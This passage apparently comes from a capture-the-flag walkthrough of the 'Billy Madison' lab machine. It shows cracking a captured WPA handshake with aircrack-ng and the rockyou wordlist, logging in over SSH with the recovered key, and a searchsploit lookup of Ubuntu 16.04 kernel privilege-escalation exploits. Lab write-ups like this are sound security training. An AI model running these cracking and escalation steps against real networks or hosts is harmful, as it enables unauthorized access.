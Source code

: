 Seeing as we need to crack wireless I decided to use `Aircrack-ng` and once again utilizing the `rockyou` dump.

{% highlight bash %}
root@kali:~/evidence/billymadison1.0/ftp/veronica# aircrack-ng eg-01.cap -E EricGordon -w /usr/share/wordlists/rockyou.txt

                               Aircrack-ng 1.2 rc4

      [00:08:10] 1699644/9822768 keys tested (3678.11 k/s)

      Time left: 36 minutes, 48 seconds                         17.30%

                           KEY FOUND! [ triscuit* ]


      Master Key     : 9E 8B 4F E6 CC 5E E2 4C 46 84 D2 AF 59 4B 21 6D
                       B5 3B 52 84 04 9D D8 D8 83 67 AF 43 DC 60 CE 92

      Transient Key  : 7A FA 82 59 5A 9A 23 6E 8C FB 1D 4B 4D 47 BE 13
                       D7 AC AC 4C 81 0F B5 A2 EE 2D 9F CC 8F 05 D2 82
                       BF F4 4E AE 4E C9 ED EA 31 37 1E E7 29 10 13 92
                       BB 87 8A AE 70 95 F8 62 20 B5 2B 53 8D 0C 5C DC

      EAPOL HMAC     : 86 63 53 4B 77 52 82 0C 73 4A FA CA 19 79 05 33
root@kali:~/evidence/billymadison1.0# -
root@kali:~/evidence/billymadison1.0/ftp/veronica# ssh eric@192.168.244.157 -p 1974
eric@192.168.244.157's password: triscuit*
Welcome to Ubuntu 16.04.1 LTS (GNU/Linux 4.4.0-36-generic x86_64)'

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

43 packages can be updated.
0 updates are security updates.


Last login: Sat Aug 20 22:28:28 2016 from 192.168.3.101
eric@BM:~$ -

{% endhighlight %}

Ok, we now have a shell to the box, the ability to reproduce in case we need to reboot.  Now to escalate privileges and win!

## Privilege Escalation

First, we start off with some enumeration.  Right from the login we see it is running `Ubuntu 16.04.1` and has a kernel version of `4.4.0-36`.

A run of searchsploit (exploit-db.com's offline search) reveals the following possible exploits:

{% highlight bash %}
root@kali:~/evidence/billymadison1.0# searchsploit 16.04
earchsploit 16.04
------------------------------------------------------------------------------------------------------ ----------------------------------
 Exploit Title                                                                                        |  Path
                                                                                                      | (/usr/share/exploitdb/platforms)
------------------------------------------------------------------------------------------------------ ----------------------------------
censura 1.16.04 - (Blind SQL Injection / Cross-Site Scripting) Multiple Vulnerabilities               | ./php/webapps/9129.txt
Linux Kernel 4.4.x (Ubuntu 16.04) - 'double-fdput()' in bpf(BPF_PROG_LOAD) Privilege Escalation       | ./linux/local/39772.txt
Linux Kernel (Ubuntu 16.04) - Reference Count Overflow Using BPF Maps                                 | ./linux/dos/39773.txt